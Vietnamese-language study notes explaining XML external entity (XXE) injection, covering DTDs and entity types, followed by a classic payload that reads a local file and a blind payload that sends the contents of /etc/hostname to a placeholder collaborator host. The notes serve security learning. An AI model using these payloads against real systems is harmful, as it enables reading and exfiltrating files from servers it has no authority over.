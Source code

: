 # XXE: XML external entity

- XML: extensible markup language -- được thiết kế với mục đích lưu trữ và truyền dữ liệu và cả người và máy đều có thế đọc được
- External entity
    - DTD (document type definitions): xác định cấu trúc, format hợp lệ của các elements và attributes trong file xml. Có 2 loại internal DTD (nằm trong file xml) và external DTD (nằm ngoài file xml).
    - DTD entity:
        - Internal: `<!ENTITY entity-name "entity-value">`
        - External: `<!ENTITY name SYSTEM "URL/URI">`

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY bar SYSTEM "file:///c:/boot.ini" >]>
<foo>&bar;</foo>
```

- `<!DOCTYPE foo [ ... ]>`: Xác định Document Type Definition (DTD) cho tài liệu XML. Trong đó:
  - `<!ELEMENT foo ANY>`: Khai báo phần tử foo có thể chứa bất kỳ nội dung nào.
  - `<!ENTITY bar SYSTEM "file:///c:/boot.ini">`: Tạo một thực thể (entity) tên là bar, liên kết với file trên hệ thống cục bộ (file:///c:/boot.ini).

## Example

blind 

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```



